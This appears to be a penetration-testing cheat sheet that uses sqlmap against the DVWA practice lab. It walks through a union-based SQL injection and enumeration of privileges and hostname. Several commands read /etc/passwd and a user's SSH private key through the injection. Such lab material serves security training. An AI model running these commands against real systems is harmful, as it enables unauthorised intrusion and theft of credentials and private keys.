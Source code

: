```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --prefix="'" --suffix="#" --technique=U
```
## 02 - Enumeration

### 2.1 -  OS Enumeration

#### 2.1.1 - General

Note: This requires **SELECT** and **FILE** privilege in order to read files externally. Enumerate the user DB account for privileges before proceeding these steps.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --privileges -U CU
```

- Enumerate hostname

```
$ sqlmap "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --hostname
```
#### 2.1.2 - Linux

- Enumerating user accounts

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --file-read="/etc/passwd"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

- Retrieve SSH keys

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --file-read="/home/<username>/.ssh/id_rsa"
```

#### 2.1.2 - Windows

TODO: Provide examples for windows OS enumeration using such as, `--reg-read` and `--file-read`

### 2.2 - Database Enumeration

#### 2.2.1 - Manual Enumeration

- Interactive `--sql-shell` prompt to perform SQL statement queries manually.
